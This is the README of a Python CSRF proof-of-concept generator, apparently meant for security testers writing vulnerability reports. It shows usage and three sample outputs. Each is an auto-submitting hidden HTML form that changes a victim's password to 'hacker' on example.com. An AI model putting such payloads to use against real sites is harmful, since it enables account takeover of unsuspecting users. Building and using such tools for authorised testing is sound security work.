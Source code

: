 # CSRF PoC Generator
This is a pyhton script which generates PoC for Cross-site request forgery with autosubmit form. you just need to provide Url, method and parameters.


# Required Package

```python3 -m pip install yattag```

# Usage

# Options
```
root@ghost:~# python3 csrf_poc_gen.py -h
usage: csrf_poc_gen.py [-h] [-m METHOD] [-u URL] [-p PARAMETERS] [-a AUTHOR]
                       [-e ENCTYPE]

This is a pyhton script which generates PoC for Cross-site request forgery
with autosubmit form. you just need to provide Url, method and parameters.

optional arguments:
  -h, --help            show this help message and exit
  -m METHOD, --method METHOD
                        Method
  -u URL, --url URL     url
  -p PARAMETERS, --parameters PARAMETERS
                        Request parameter
  -a AUTHOR, --author AUTHOR
                        Name of Author
  -e ENCTYPE, --enctype ENCTYPE
                        enctype
```



# To Generate PoC 

Note: Parameters should be in key value pair (key=value&key=value)
```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" 
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# Enctype
it supports 3 enctype application/x-www-form-urlencoded, multipart/form-data and text/plain.

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -e "text/plain"
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="text/plain">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# With Discoverer Name

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -a "Hacker man"
<html>
  <title>
    This CSRF was found by Hacker man
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
